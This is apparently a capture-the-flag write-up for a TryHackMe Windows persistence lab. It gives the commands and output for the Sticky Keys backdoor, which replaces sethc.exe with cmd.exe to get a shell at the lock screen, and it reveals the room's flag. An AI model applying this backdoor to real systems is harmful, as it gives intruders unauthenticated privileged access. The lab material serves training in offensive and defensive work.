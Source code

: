 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Stickey Keys
1. Started this room's machine
2. `takeown /f c:\Windows\System32\sethc.exe`
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\sethc.exe /grant Administrator:F`
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe`
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. Lock you screen and press **SHIFT** five times

![]()

![]()

![]() 

6. `C:\flags\flag14.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag14.exe
THM{BREAKING_THROUGH_LOGIN}
```

# Utilman
1. Started this room's machine
